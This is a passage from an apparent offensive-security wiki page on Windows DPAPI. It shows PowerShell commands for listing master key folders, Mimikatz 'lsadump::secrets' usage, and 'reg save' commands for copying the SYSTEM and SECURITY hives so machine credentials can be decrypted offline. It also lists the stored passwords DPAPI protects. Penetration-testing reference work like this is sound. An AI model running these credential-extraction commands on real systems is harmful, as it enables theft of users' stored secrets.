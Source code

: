 ```bash
Get-ChildItem C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\USER\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\{SID}
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\{SID}
```

This is what a bunch of Master Keys of a user will looks like:

![[../../images/image (1121).png]]

### Machine/System key generation

This is key used for the machine to encrypt data. It's based on the **DPAPI_SYSTEM LSA secret**, which is a special key that only the SYSTEM user can access. This key is used to encrypt data that needs to be accessible by the system itself, such as machine-level credentials or system-wide secrets.

Note that these keys **don't have a domain backup** so they are only accesisble locally:

- **Mimikatz** can access it dumping LSA secrets using the command: `mimikatz lsadump::secrets`
- The secret is stored inside the registry, so an administrator could **modify the DACL permissions to access it**. The registry path is: `HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets\DPAPI_SYSTEM`
- Offline extraction from registry hives is also possible. For example, as an administrator on the target, save the hives and exfiltrate them:

```cmd
reg save HKLM\SYSTEM C:\Windows\Temp\system.hiv
reg save HKLM\SECURITY C:\Windows\Temp\security.hiv
```

Then on your analysis box, recover the DPAPI_SYSTEM LSA secret from the hives and use it to decrypt machine-scope blobs (scheduled task passwords, service credentials, Wi‑Fi profiles, etc.):

```text
mimikatz lsadump::secrets /system:C:\path\system.hiv /security:C:\path\security.hiv
# Look for the DPAPI_SYSTEM secret in the output
```

### Protected Data by DPAPI

Among the personal data protected by DPAPI are:

- Windows creds
- Internet Explorer and Google Chrome's passwords and auto-completion data
- E-mail and internal FTP account passwords for applications like Outlook and Windows Mail
- Passwords for shared folders, resources, wireless networks, and Windows Vault, including encryption keys
- Passwords for remote desktop connections, .NET Passport, and private keys for various encryption and authentication purposes
- Network passwords managed by Credential Manager and personal data in applications using CryptProtectData, such as Skype, MSN messenger, and more
- Encrypted blobs inside the register
- ...
